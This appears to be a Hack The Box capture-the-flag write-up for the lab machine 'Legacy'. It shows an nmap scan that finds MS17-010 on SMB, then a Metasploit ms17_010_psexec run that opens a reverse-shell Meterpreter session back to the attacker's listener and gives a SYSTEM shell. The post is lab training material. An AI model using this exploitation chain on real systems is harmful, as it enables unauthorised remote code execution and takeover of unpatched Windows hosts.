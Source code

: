 ```yaml
---
layout: post
title:  "HTB: Legacy"
date:   2021-03-05 21:30:00 +1100
category: hacking
---
```


## Legacy
Following on from Jerry in number of pwns is Legacy. I go in blind.

## Ports
It's SMB only, on 139/445. Looks like Windows.

## SMB
Given what this is, let's try a special nmap scan:

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/legacy]
└─# nmap -p445 --script smb-vuln-ms17-010 10.10.10.4       
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-05 05:20 EST
Nmap scan report for 10.10.10.4
Host is up (0.24s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 3.82 seconds
{% endhighlight %}

Okay, it's pretty obvious where this is going.

## Yeeting MSF again
{% highlight shell %}
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST 10.10.14.2
LHOST => 10.10.14.2                                                                                                                                                             
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.4                                                                                                               
RHOSTS => 10.10.10.4                                                                                                                                                            
msf6 exploit(windows/smb/ms17_010_psexec) > run                                                                                                                                 
                                                                                                                                                                                
[*] Started reverse TCP handler on 10.10.14.2:4444                                                                                                                              
[*] 10.10.10.4:445 - Target OS: Windows 5.1                                                                                                                                     
[*] 10.10.10.4:445 - Filling barrel with fish... done
[*] 10.10.10.4:445 - <---------------- | Entering Danger Zone | ---------------->
[*] 10.10.10.4:445 -    [*] Preparing dynamite...
[*] 10.10.10.4:445 -            [*] Trying stick 1 (x86)...Boom!
[*] 10.10.10.4:445 -    [+] Successfully Leaked Transaction!
[*] 10.10.10.4:445 -    [+] Successfully caught Fish-in-a-barrel
[*] 10.10.10.4:445 - <---------------- | Leaving Danger Zone | ---------------->
[*] 10.10.10.4:445 - Reading from CONNECTION struct at: 0x81b07da8
[*] 10.10.10.4:445 - Built a write-what-where primitive...
[+] 10.10.10.4:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.4:445 - Selecting native target
[*] 10.10.10.4:445 - Uploading payload... onfjZZCq.exe
[*] 10.10.10.4:445 - Created \onfjZZCq.exe...
[+] 10.10.10.4:445 - Service started successfully...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] 10.10.10.4:445 - Deleting \onfjZZCq.exe...
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.4:1031) at 2021-03-05 05:22:00 -0500

meterpreter > shell
Process 1288 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
{% endhighlight %}

And the flags followed shortly after.
